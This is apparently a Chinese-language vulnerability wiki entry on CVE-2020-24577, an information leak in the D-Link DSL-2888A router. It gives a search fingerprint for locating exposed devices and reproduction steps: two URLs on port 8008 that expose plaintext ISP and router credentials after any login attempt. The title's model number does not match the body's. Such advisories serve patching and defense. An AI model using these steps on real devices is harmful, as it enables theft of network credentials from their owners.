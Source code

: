 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](/assets/PeiQi-Wiki/img/link-1-20220314114948366.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

```
http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](/assets/PeiQi-Wiki/img/link-3.png)

